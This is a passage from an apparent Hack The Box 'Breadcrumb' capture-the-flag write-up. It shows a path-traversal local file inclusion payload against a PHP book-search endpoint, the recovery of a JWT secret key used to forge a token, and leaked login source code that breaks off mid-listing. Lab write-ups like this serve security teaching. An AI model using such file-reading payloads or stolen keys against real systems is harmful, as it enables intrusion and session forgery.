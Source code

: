 


## **<span style='color:#c0392b'>[2] Weaponization - Find exploit way</span>**
### LFI from php files
***

When we search book or anything from `bookController.php` we have possibility to generate an error with `&method=1` in request and this allow the reveal of array key `Book` and action `file_get_contents(../books/)`.

![Desktop View]({{ "/assets/img/breadcrumb/HTB-Images-Breadcrumb-lfi-book.png" | relative_url }})

We test LFI to get php.ini and it's work!

```
book=../../../../../../Users/www-data/Desktop/xampp/php/php.ini&method=1
```

![Desktop View]({{ "/assets/img/breadcrumb/HTB-Images-Breadcrumb-lfi-test.png" | relative_url }})

We recover the secret_key from authController.php to generate TOKEN: `6cb9c1a2786a483ca5e44571dcc5f3bfa298593a6376ad92185c3258acd5591e`

Reference: <https://extendsclass.com/php.html>

```php
<?php 
require 'db\/db.php';
require \"cookie.php\";
require \"vendor\/autoload.php\";
use \Firebase\JWT\JWT;

$errors = array();
$username = \"\";
$userdata = array();
$valid = false;
$IP = $_SERVER['REMOTE_ADDR'];

\/\/if user clicks on login
if($_SERVER['REQUEST_METHOD'] === \"POST\"){
    if($_POST['method'] == 0){
        $username = $_POST['username'];
        $password = $_POST['password'];
        
        $query = \"SELECT username,position FROM users WHERE username=? LIMIT 1\";
        $stmt = $con->prepare($query);
        $stmt->bind_param('s', $username);
        $stmt->execute();
        $result = $stmt->get_result();
        while ($row = $result->fetch_array(MYSQLI_ASSOC)){
            array_push($userdata, $row);
        }
        $userCount = $result->num_rows;
        $stmt->close();

        if($userCount > 0){
            $password = sha1($password);
            $passwordQuery = \"SELECT * FROM users WHERE password=? AND username=? LIMIT 1\";
            $stmt = $con->prepare($passwordQuery);
            $stmt->bind_param('ss', $password, $username);
            $stmt->execute();
            $result = $stmt->get_result();

            if($result->num_rows > 0){
```